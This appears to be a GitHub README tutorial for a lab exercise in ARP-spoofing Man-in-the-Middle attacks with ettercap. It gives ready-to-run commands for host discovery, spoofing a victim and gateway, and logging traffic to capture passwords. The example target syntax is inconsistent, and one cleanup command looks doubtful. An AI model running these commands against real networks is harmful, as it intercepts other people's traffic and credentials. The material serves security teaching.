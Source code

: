 # ⚠️ MITM Attack with Ettercap (CLI Mode)

> This guide demonstrates how to perform a Man-in-the-Middle (MITM) attack using `ettercap` in **command-line mode**, for **educational purposes** in a **controlled lab environment**.

---

## 📦 Requirements

- OS: Kali Linux, Parrot OS, or any Linux distro with `ettercap-text-only`
- Tools: Ettercap CLI, Netdiscover or Nmap
- Setup:
  - Attacker: Kali Linux
  - Victim: Any host on the same LAN
  - Gateway: Your router

---

## 📥 Installation

```bash
sudo apt update
sudo apt install ettercap-text-only netdiscover nmap
```

##🌐 Step 1: Identify Network Interface
```bash
ip a
```
Example interface: eth0, wlan0, etc.

---
##🔍 Step 2: Scan for Hosts
###Option 1: Netdiscover
```bash
sudo netdiscover -i eth0
```

---
###Option 2: Nmap
```bash
sudo nmap -sn 192.168.0.0/24
```
Note the IPs of:

Victim device → VICTIM_IP

Gateway (router) → GATEWAY_IP

Your interface → INTERFACE

##🧪 Step 3: Perform ARP Spoofing (MITM)
```bash
sudo ettercap -T -M arp:remote /VICTIM_IP// /GATEWAY_IP// -i INTERFACE
```

##Example:
```bash
sudo ettercap -T -M arp:remote //192.168.0.105/ /192.168.0.1// -i eth0

```
---
## :Flags Explained:

-T: Text (CLI) mode

-M arp:remote: ARP spoofing for both directions

/target1/ /target2/: Victim and Gateway IPs

-i: Interface to use

---
##🔐 Step 4: Capture Passwords (Optional)
```bash
sudo ettercap -T -M arp:remote -w mitm_log.pcap /VICTIM_IP// /GATEWAY_IP// -i INTERFACE
```
##Open the log with Wireshark:

```bash
wireshark mitm_log.pcap
```

---
##🔚 Step 5: Stop the Attack
To quit Ettercap, press q.

To restore ARP tables manually:
```bash
sudo ettercap -T -P restore_arp -i INTERFACE
```
---

##⚠️ Legal Warning
This guide is provided for educational and authorized penetration testing only.
Unauthorized access to networks or data is illegal and punishable by law.
Always get written permission before testing any network.

---

##📌 Author

Created by:Nahid Chowdury- CSE, DU

For: Ethical Hacking / Cybersecurity Lab Practice


